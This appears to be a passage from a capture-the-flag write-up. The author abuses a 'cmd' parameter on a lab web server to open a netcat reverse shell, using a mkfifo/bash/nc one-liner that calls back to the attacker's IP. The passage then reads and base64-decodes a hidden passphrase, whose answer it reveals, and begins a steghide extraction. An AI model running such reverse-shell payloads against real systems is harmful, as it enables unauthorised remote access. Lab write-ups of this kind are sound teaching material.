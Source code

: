 


###### **I downloaded both images using wget:**

```
wget http://10.10.245.95/assets/images/oneforall.jpg  
wget http://10.10.245.95/assets/images/yuei.jpg
```




###### **First, starting our listener to catch the reverse shell.**

`nc -lvnp 443`
###### **Sending our reverse shell payload with the `curl` command.**

`curl -s 'http://10.10.245.95/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.17.22.228 443 >/tmp/f'`






```
www-data@ip-10-10-143-172:/var/www$ ls -la
ls -la
total 16
drwxr-xr-x  4 www-data www-data 4096 Dec 13  2023 .
drwxr-xr-x 14 root     root     4096 Jul  9  2023 ..
drwxrwxr-x  2 www-data www-data 4096 Jul  9  2023 Hidden_Content
drwxr-xr-x  3 www-data www-data 4096 Dec 13  2023 html
www-data@ip-10-10-143-172:/var/www$ cd Hidden_Content
cd Hidden_Content
www-data@ip-10-10-143-172:/var/www/Hidden_Content$ ls -la
ls -la
total 12
drwxrwxr-x 2 www-data www-data 4096 Jul  9  2023 .
drwxr-xr-x 4 www-data www-data 4096 Dec 13  2023 ..
-rw-rw-r-- 1 www-data www-data   29 Jul  9  2023 passphrase.txt
www-data@ip-10-10-143-172:/var/www/Hidden_Content$ cat passphrase.txt
cat passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg==

```


Decode base64 string:

`echo "QWxsbWlnaHRGb3JFdmVyISEhCg==" | base64 -d`      
**output**:  Decoding it from the base64, we get a passphrase: AllmightForEver!!!




Checking for steganography: 
`   steghide extract -sf oneforall.jpg   `

